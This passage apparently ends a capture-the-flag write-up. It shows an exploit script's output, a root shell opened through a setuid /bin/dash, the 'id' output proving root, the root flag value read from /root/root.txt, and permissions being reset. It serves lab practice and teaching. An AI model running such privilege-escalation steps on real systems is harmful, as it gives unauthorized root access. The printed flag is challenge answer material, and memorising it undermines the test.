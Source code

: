 ```text
$ python3 ./x.py
Server response: Log file processed
```

On target:

```console
margo@caption:/tmp$ /bin/dash -p
# id
uid=1000(margo) gid=1000(margo) euid=0(root) egid=0(root) groups=0(root),1000(margo)
# cat /root/root.txt
ac2e4c7c6a19545a9c4ce8b38cb9dc25
# chmod 755 /bin/dash
```
